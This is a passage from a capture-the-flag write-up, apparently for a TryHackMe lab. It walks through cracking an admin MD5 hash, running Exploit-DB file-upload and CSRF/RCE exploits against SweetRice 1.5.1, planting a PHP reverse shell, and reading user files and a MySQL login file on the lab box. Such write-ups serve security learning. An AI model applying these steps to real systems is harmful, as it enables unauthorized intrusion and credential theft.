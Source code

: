 So the admin username is manager? And their password hash is that 32-character string? Probably. Let's use [Crackstation](https://crackstation.net/) to crack that hash

Success. its an MD5 hash for *CENSORED*. Lets try `manager:*CENSORED*` on the admin portal we found earlier.

SUCCESS!! We have logged in as admin.
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qfb98elqeak699zaelxz.png)

We also have the version as 1.5.1. Let's try to use the [Aribtrary File Upload exploit](https://www.exploit-db.com/exploits/40716)

Lets try to upload a PHP reverse shell from `/usr/share/webshells/php` after configuring IP and port.
```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.42.242/content
Enter Username : manager
Enter Password : CENSORED
Enter FileName (Example:.htaccess,shell.php5,index.html) : revshell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.42.242/content/attachment/revshell.php
```

Trying to execute reverse shell. Login successful but not working. Getting a 404 error. There is an attachment folder but nothing inside it.

Now trying [PHP CSRF/RCE Exploit](https://www.exploit-db.com/exploits/40700)

So we will upload a HTML ad containing some PHP code for reverse shell to http://10.10.42.242/content/as/?type=ad
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/aueria9bjegszz42j3dh.png)

SUCCESS! We got shell! Also found user.txt in `/home/itguy/`

```bash
ls -l
total 56
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Desktop
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Documents
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Downloads
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Music
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Pictures
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Public
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Templates
drwxr-xr-x 2 itguy itguy 4096 Nov 29  2019 Videos
-rw-r--r-x 1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r-- 1 itguy itguy 8980 Nov 29  2019 examples.desktop
-rw-rw-r-- 1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r-- 1 itguy itguy   38 Nov 29  2019 user.txt

www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
*CENSORED*
```
